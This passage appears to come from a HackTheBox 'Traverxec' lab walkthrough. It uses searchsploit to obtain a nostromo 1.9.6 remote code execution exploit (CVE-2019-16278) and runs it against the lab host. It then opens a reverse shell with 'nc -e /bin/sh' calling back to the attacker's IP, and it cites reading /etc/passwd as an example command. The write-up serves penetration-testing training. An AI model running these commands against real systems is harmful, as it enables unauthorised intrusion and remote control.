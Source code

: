 As we see, there is a Remote Code Execution (RCE) exploit available in Python for our exact version number: nostromo 1.9.6. This looks very good. Let's download and open it to view the code.  

Use -m and the file number to download the specific exploit:  

```bash
└─$ searchsploit -m 47837 && gedit 47837.py
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable
```  

Looking at the file with gedit, we identify the CVE as 2019-16278. Additionally, the remote exploit code looks very easy to run. Just type 'python filename.py' followed by the IP (10.10.10.165), port (80) and command you wish to execute (i.e. "cat /etc/passwd").  

![CVE-2019-16278 RCE Code](/assets/images/HTB/traverxec/cve-2019-16278.png)  

## Initial Access via CVE-2019-16278  

So, let's try this exploit out and see if we can make a connection. I'm going to start by sending it the 'whoami' command to get our current user's name.  

```bash
└─$ python 47837.py 10.10.10.165 80 "whoami"

www-data
```  

Okay, it works. I noticed the remote system has netcat installed by sending it the 'ls' command (current directory is /usr/bin, which stores application folders).  

So, let's start a listener with netcat on our system and send it command that uses netcat to connect back to us, giving us a remote shell.  

```bash
└─$ nc -nvlp 8899

# In another terminal:
# Use your IP in the command that you send, to connect back to yourself: 
└─$ python 47837.py 10.10.10.165 80 "nc -e /bin/sh 10.10.14.27 8899"

# Now we have a shell
```  
